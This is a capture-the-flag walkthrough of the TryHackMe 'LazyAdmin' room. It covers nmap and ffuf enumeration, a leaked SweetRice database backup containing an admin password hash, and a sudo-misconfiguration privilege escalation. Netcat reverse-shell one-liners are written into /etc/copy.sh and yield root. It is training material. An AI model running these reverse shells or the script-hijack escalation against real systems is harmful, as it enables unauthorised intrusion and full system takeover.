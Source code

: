 ## LazyAdmin
https://tryhackme.com/room/lazyadmin

### 🍙 Enum
```
nmap -Pn -sC -sV -sT -T4 10.10.249.107
```
![image](https://user-images.githubusercontent.com/6504854/178718376-a750224b-d103-4ba8-b5a7-be1856b73c95.png)

```
ffuf -u http://10.10.249.107/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -r
```
![image](https://user-images.githubusercontent.com/6504854/178721746-8ed19a7f-09f2-44c7-ab52-3ca4f8004ace.png)

```
ffuf -u http://10.10.249.107/content/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -r
```
![image](https://user-images.githubusercontent.com/6504854/178721857-2dc90d94-c4ad-41fb-84c8-42bcfead24e4.png)

![image](https://user-images.githubusercontent.com/6504854/178722375-8ea0ffea-b513-44b7-b3c4-463e34628c9b.png)
![image](https://user-images.githubusercontent.com/6504854/178722441-3455e3c7-cf85-4c60-b349-abde6792c495.png)

```
cat mysql_bk.sql
<?php return array (
  0 => 'DROP TABLE IF EXISTS `%--%_attachment`;',
  1 => 'CREATE TABLE `%--%_attachment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `post_id` int(10) NOT NULL,
  `file_name` varchar(255) NOT NULL,
  `date` int(10) NOT NULL,
  `downloads` int(10) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  2 => 'DROP TABLE IF EXISTS `%--%_category`;',
  3 => 'CREATE TABLE `%--%_category` (
  `id` int(4) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `link` varchar(128) NOT NULL,
  `title` text NOT NULL,
  `description` varchar(255) NOT NULL,
  `keyword` varchar(255) NOT NULL,
  `sort_word` text NOT NULL,
  `parent_id` int(10) NOT NULL DEFAULT \'0\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `link` (`link`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  4 => 'DROP TABLE IF EXISTS `%--%_comment`;',
  5 => 'CREATE TABLE `%--%_comment` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(60) NOT NULL DEFAULT \'\',
  `email` varchar(255) NOT NULL DEFAULT \'\',
  `website` varchar(255) NOT NULL,
  `info` text NOT NULL,
  `post_id` int(10) NOT NULL DEFAULT \'0\',
  `post_name` varchar(255) NOT NULL,
  `post_cat` varchar(128) NOT NULL,
  `post_slug` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `ip` varchar(39) NOT NULL DEFAULT \'\',
  `reply_date` int(10) NOT NULL DEFAULT \'0\',
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  6 => 'DROP TABLE IF EXISTS `%--%_item_data`;',
  7 => 'CREATE TABLE `%--%_item_data` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `data_type` varchar(20) NOT NULL,
  `name` varchar(255) NOT NULL,
  `value` text NOT NULL,
  PRIMARY KEY (`id`),
  KEY `item_id` (`item_id`),
  KEY `item_type` (`item_type`),
  KEY `name` (`name`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  8 => 'DROP TABLE IF EXISTS `%--%_item_plugin`;',
  9 => 'CREATE TABLE `%--%_item_plugin` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `item_id` int(10) NOT NULL,
  `item_type` varchar(255) NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  10 => 'DROP TABLE IF EXISTS `%--%_links`;',
  11 => 'CREATE TABLE `%--%_links` (
  `lid` int(10) NOT NULL AUTO_INCREMENT,
  `request` text NOT NULL,
  `url` text NOT NULL,
  `plugin` varchar(255) NOT NULL,
  PRIMARY KEY (`lid`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
  12 => 'DROP TABLE IF EXISTS `%--%_options`;',
  13 => 'CREATE TABLE `%--%_options` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `content` mediumtext NOT NULL,
  `date` int(10) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `name` (`name`)
) ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
  15 => 'INSERT INTO `%--%_options` VALUES(\'2\',\'categories\',\'\',\'1575023409\');',
  16 => 'INSERT INTO `%--%_options` VALUES(\'3\',\'links\',\'\',\'1575023409\');',
  17 => 'DROP TABLE IF EXISTS `%--%_posts`;',
  18 => 'CREATE TABLE `%--%_posts` (
  `id` int(10) NOT NULL AUTO_INCREMENT,
  `name` varchar(255) NOT NULL,
  `title` varchar(255) NOT NULL,
  `body` longtext NOT NULL,
  `keyword` varchar(255) NOT NULL DEFAULT \'\',
  `tags` text NOT NULL,
  `description` varchar(255) NOT NULL DEFAULT \'\',
  `sys_name` varchar(128) NOT NULL,
  `date` int(10) NOT NULL DEFAULT \'0\',
  `category` int(10) NOT NULL DEFAULT \'0\',
  `in_blog` tinyint(1) NOT NULL,
  `views` int(10) NOT NULL,
  `allow_comment` tinyint(1) NOT NULL DEFAULT \'1\',
  `template` varchar(60) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `sys_name` (`sys_name`),
  KEY `date` (`date`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8;',
);?>
```

![image](https://user-images.githubusercontent.com/6504854/178723103-6e48693a-217e-4139-a1ef-6a9e2ed75d2e.png)
![image](https://user-images.githubusercontent.com/6504854/178723594-b61f37eb-a41c-4c72-ae34-ff8240a7e7ed.png)
![image](https://user-images.githubusercontent.com/6504854/178724057-2fc87c85-8d2b-42cf-bba7-d9f8e81d555f.png)
![image](https://user-images.githubusercontent.com/6504854/178724201-6f1b6123-1c59-4a80-9c1e-db11d01a2fdc.png)
![image](https://user-images.githubusercontent.com/6504854/178726534-d5ef119f-3eb8-4a62-9470-29dbd1b04f0a.png)

### 🍙 Flag
```
nc -lnvp 4444
curl http://10.10.10.164/content/_themes/default/cat.php
```
```
listening on [any] 4444 ...
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 13:29:21 up 33 min,  0 users,  load average: 0.00, 0.00, 0.14
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
```
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```
```
cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
```
cat /etc/copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1111 >/tmp/f' > /etc/copy.sh
```

```
nc -lnvp 1111
sudo /usr/bin/perl /home/itguy/backup.pl
```

```
listening on [any] 1111 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.164] 60188
# id
uid=0(root) gid=0(root) groups=0(root)
```

🍙 I'm glad to someone's inspiration. Thank you for your time! 🍙🍙🍙
